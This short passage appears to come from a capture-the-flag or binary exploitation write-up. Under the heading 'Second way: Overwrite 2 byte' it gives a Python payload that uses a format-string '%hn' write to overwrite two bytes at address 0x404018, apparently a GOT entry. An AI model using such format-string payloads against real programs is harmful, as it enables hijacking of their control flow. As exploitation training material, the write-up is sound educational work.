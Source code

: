 ![alt text](/images/image-8-3.png)

#### Second way: Overwrite 2 byte.

```
payload  = b'A'*112
payload += f'%4937c%22$hn'.encode()
payload += b'A' * 4
payload += p64(0x404018)
```
